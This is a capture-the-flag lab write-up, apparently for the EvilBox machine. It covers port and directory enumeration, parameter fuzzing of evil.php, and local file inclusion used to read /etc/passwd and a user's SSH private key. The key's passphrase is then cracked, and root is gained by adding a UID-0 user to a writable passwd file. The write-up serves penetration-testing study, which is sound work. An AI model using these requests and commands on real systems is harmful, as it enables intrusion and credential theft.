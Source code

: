 # nmap

- 22 - ssh
- 80 - http apache

![](Screenshots/2022-10-19-18-08-24.png)


# gobuster

> Secret is suspicous.

![](Screenshots/2022-10-19-18-16-39.png)


## main

> Apache2 default page

![](Screenshots/2022-10-19-18-06-16.png)

> It's good practice to view source and check for comments, in this case there's nothing.

## robots.txt

![](Screenshots/2022-10-19-18-11-27.png)

## secret

![](Screenshots/2022-10-19-18-15-23.png)

> Let's run another discovery on secret, since there is nothing else.

![](Screenshots/2022-10-19-18-57-04.png)

> evil.php, quite an obvious way in.

![](Screenshots/2022-10-19-18-18-23.png)

> Hmm, could be some rce already, let's try some common command ones.

    http://evilbox.pg/secret/evil.php?command=id

    http://evilbox.pg/secret/evil.php?cmd=id

Nothing... We need to find the parameter used, or else it's sort of useless.

> Let's fire  up Burp and do some fuzzing, 

* param fuzzing with "id"
* param fuzzing with "/etc/passwd"

> Since my Burp intruder is throttled due to CE version, I'll do wfuzz instead.

> param fuzzing with value "id"

    wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt --hl 0 'http://evilbox.pg/secret/evil.php?FUZZ=id'

![](Screenshots/2022-10-19-19-16-36.png)

> param fuzzing with value "/etc/passwd"

    wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt --hl 0 'http://evilbox.pg/secret/evil.php?FUZZ=/etc/passwd'

![](Screenshots/2022-10-19-19-14-08.png)

> Great, we know the parameter now, as well as that it reads files.

    http://evilbox.pg/secret/evil.php?command=/etc/passwd

![](Screenshots/2022-10-19-18-32-36.png)

> we see that mowree is a user, let's try and get his ssh

    http://evilbox.pg/secret/evil.php?command=/home/mowree/.ssh/id_rsa

![](Screenshots/2022-10-19-18-34-22.png)

it's encrypted, so we need to crack the passphrase:

    ssh2john id_rsa > hash.txt

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

![](Screenshots/2022-10-19-18-44-49.png)

> Remember to change privs for id_rsa or else it's gonna get rejected

    chmod 600 id_rsa

> Now we can login as mowree

![](Screenshots/2022-10-19-18-45-14.png)

## user: Mowree

> we have our flag.

![](Screenshots/2022-10-19-18-46-22.png)

> Now we have to find a way to escalate our priviledges. Let's refer to our go to's:
* sudo -l
    * got nothing, however the system seems to be in Spanish?
* find / -perm /4000 2>/dev/null
    * Nothing...
* find / -writable 2>/dev/null
    * going through the list we notice something interesting tho.

            find / -writable 2>/dev/null   

![](Screenshots/2022-10-19-18-49-02.png)

> passwd is writable?!.. ok.

> Let's add a new user with root's ID, but first we need to generate a password

    openssl passwd password

## !!! TIP: Don't include your password in the syntax on actual systems, it'll be stored in  your history !!!

> Now we add the new user with root's ID

![](Screenshots/2022-10-19-18-51-05.png)

> Now we can switch users and we'll have root.

    su MythicalMoon
    >password



![](Screenshots/2022-10-19-18-53-21.png)

> root and flag proof:

![](Screenshots/2022-10-19-18-52-44.png)
